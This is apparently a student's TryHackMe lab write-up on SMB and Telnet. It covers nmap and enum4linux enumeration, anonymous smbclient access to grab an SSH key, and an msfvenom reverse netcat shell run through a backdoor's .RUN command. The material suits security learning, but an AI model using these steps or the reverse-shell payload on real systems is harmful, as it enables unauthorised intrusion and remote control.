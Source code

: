 # Network Services I 

#### Connecting to THM's OpenVPN Server
- To actually do this room and other rooms in the future, [connect to THM](https://tryhackme.com/access) by using OpenVPN
- First, install OpenVPN by following instructions based on your OS
- Next, download your configuration file from this [link](https://tryhackme.com/access)
- Then, use this config and import it to OpenVPN
- Finally, connect and ignore the details in the site as they are bugged, test connection with `ping 10.10.10.10`
- This allows you to SSH into THM's machines

#### Server Message Block Protocol or SMB
- Client-server communication protocol used for sharing access to files, printers, serial ports, and other resources on a network
- Servers make file systems and other resources available to clients on the network
- It is known as a response-request protocol, so it passes messages back and forth between client and server to establish a connection
    - Clients connect to servers via TCP/IP (NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI, or IPX/SPX
- Once a connection has been established, clients can send SMB commands to the server to access shares, open files, read, and write files and do all the things you need with a file system over the network
- Microsoft Windows has included client and server SMB support since Windows 95
- UNIX uses Samba which is an open source server that supports SMB

#### Enumerating SMB
- Enumeration is basically gathering information on a target in order to find potential attack vectors
    - Enumeration can be used to gather everything from usernames, passwords, network info, host names, application data, services, etc...
    - Usually, servers have SMB share drives for file transfer and viewing, so attackers can easily exploit it to gather sensitive files or information
- Port Scanning
    - This is usually the first step of enumeration
    - Finding out everything you can about services, applications, structure, and operating system of target machine
    - Nmap is a great tool for port scanning
- Enum4Linux
    - A great tool for enumerating SMB shares on both Windows and Linux
    - Basically, a wrapper around the tools in Samba and makes it easy to extract SMB information about the target
    - Syntax is `enum4linux <options> <ip>`
        - Options
        1. `-U` - get user list
        2. `-M` - get machine list
        3. `-N` - get name list dump
        4. `-S` - get share list
        5. `-P` - get password policy information
        6. `-G` - get group and member list
        7. `-a` - get all of the above (full enumeration)

#### Exploiting SMB
- Types of SMB Exploits
    - CVE-2017-7494 shows that remote code execution can be used once SMB has been exploited
    - The best and most likely way of getting into a system is thanks to a misconfiguration within the system
    - Anonymous SMB share access can have a misconfiguration allowing us to gain information that would lead to the shell
- Method Breakdown
    - We have
    1. SMB share location
    2. The name of an interesting SMB share
    - We can use
    1. SMBClient
        - Because we're trying to access an SMB share, we need a client to access resources on servers
        - SMBClient is part of the default samba suite, great because the target OS is Linux-based
        - Syntax: `smbclient //<IP>/<Share Name> -U <Name of User> -p <Port>`
            - The default port for SMB is 445
- Experience
    - This was my first real THM Attackbox experience and it was pretty hard having no experience with SMBClient
    - First, I used `nmap -sS` to scan for open ports on the target's network; we found that SMB is open on 139 and 445 (default)
    - Next, I fully enumerated the SMB using the given IP address and enum4linux of the target which I got the OS, shares of interest, and workgroup name from
    - Then, in order to get into profiles, I used SMBClient with the username anonymous, the default port, and no password `smbclient //10.10.212.98/profiles -U Anonymous -p 445`; using `more` to open the .txt file, we learned that this user was given ssh access and his name is John Cactus
    - Finally, I `ls` the directory and learn that there is a .ssh directory which contains an RSA public key; we `get` this and `ssh cactus@10.10.212.98 -i <public key>` to get into the system as the user using his public key
    - Most of these syntax were obfuscated from the room, but it wasn't so bad in the end

#### Telnet
- Telnet is an application protocol that uses a telnet client to allow you to connect and execute commands on a remote machine that's running a Telnet server
    - The client establishes a connection with the server which becomes a virtual terminal, allowing you to interact with the remote host
- SSH has mostly replaced Telnet because Telnet only sends cleartext messages, which is unsecure (unencrypted)
- Syntax: `telnet <IP> <Port>

#### Enumerating Telnet
- To enumerate Telnet, we first use `nmap` much like we did for SMB
- First, I scanned the IP of the target using a bunch of `nmap` options, but none of these worked
    - I used the following options:
    1. `-p-` - Scan all ports
    2. `-vv` - Verbose (extended)
    3. `-T5` - Fast mode
    - I determined that the port 8012/tcp was open
- `-p-` is key here because sometimes, non-standard ports are used as a way to hide services
- Now that I've determined an exact port, I can aggressively scan the port with a new option: `-A`
    - `-A` enables OS detection, version detection, script scanning, and traceroute
    - I use the command `nmap <IP> -p 8012 -A -vv
    - I notice something of interest: "SKIDY'S BACKDOOR"
- Finally, I have enumerated three new things:
    - An open port: 8012
    - A possible username: "SKIDY"
    - The purpose of the port: Backdoor

#### Exploiting Telnet
- As a protocol, Telnet is pretty unsecure because it doesn't encrypt its messages
- There are Common Vulnerabilities and Exposures or CVEs for Telnet client and server systems in [MITRE](https://cve.mitre.org/) and [CVE Details](https://www.cvedetails.com/)
    - A CVE is a list of publicly disclosed security flaws
- Method Breakdown
    - We have
    1. A poorly hidden telnet service
    2. The service is a backdoor
    3. Possibly a username "Skidy"
    - We can use
    1. A Telnet connection
       - `telnet <IP> <Port>`
    2. Reverse Shell
       - A shell is a piece of code which can be used to gain code or command execution on a device
       - A reverse shell is a shell where the target machine communicates back to the attacking machine
       - The attacking machine has a listening port which receives the comms from the target machine
- Experience
    - After enumerating, I ran `telnet <IP> <port>` which brought me to a server that welcomed me with "SKIDY'S BACKDOOR"
        - The server doesn't seem to output anything for any command
        - I use `.HELP` which shows me that there are only two commands: `.RUN <command>` and `.EXIT`
    - I need a tcpdump listener in order to receive ICMP traffic to see if I can ping from the telnet server to my machine
        - A tcpdump listener is created locally with `sudo tcpdump ip proto \\icmp -i tun0`
        - Next, I tested ping on the Telnet server with `.RUN ping <IP> -c 1`
        - I receive a response/request log in the tcpdump listener, there is a connection and we can execute commands
    - Next, create a reverse shell payload using `msfvenom` in the local machine, not in the Telnet server or tcpdump listener
        - Syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=4444 R`
            - Options:
            1. `-p`: payload
            2. `lhost`: the IP of the local machine
            3. `lport`: The port to listen on
            4. `R`: export in a raw format
    - Finally, set up a netcat listener in the local machine    
        - Syntax: `nc -lvnp <Port>`
        - Copy the generated payload and `.RUN` it on the Telnet server
        - Now, we have a shell on the target machine and we can run commands
        - Run `ls` and find "flags.txt" `cat flags.txt` and that's the flag
